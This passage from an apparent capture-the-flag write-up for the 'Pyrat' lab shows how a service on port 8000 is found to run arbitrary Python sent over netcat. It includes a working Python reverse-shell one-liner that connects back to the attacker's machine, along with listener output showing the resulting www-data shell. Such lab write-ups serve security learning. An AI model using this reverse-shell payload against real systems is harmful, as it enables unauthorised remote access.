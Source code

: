 From port scan we see there is a ``SimpleHTTP`` server on port 8000. When opening it on a browser it just shows a blank page with a text saying 'Try a more basic connection!'

![alt text](../assets/img/posts/2024-11-13-thm-writeup-pyrat/image.png)

What is a more basic connection? Maybe if we try netcat we can get something out of that?

![alt text](../assets/img/posts/2024-11-13-thm-writeup-pyrat/image-1.png)

Success! By testing various inputs against the server, we can deduce that it executes any Python code we send to it.
With this knowledge, we can attempt to craft a reverse shell using Python.

```bash
┌──(root㉿kali)-[~]
└─# nc 10.10.43.86 8000
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.143.15",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")   
```

```bash
┌──(root㉿kali)-[~]
└─# nc -vnlp 4444
listening on [any] 4444 ...
connect to [10.10.143.15] from (UNKNOWN) [10.10.43.86] 47294
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ python3 -c "import pty;pty.spawn('/bin/bash');"
python3 -c "import pty;pty.spawn('/bin/bash');"
www-data@Pyrat:~$ export TERM=xterm
export TERM=xterm
www-data@Pyrat:~$ 

```
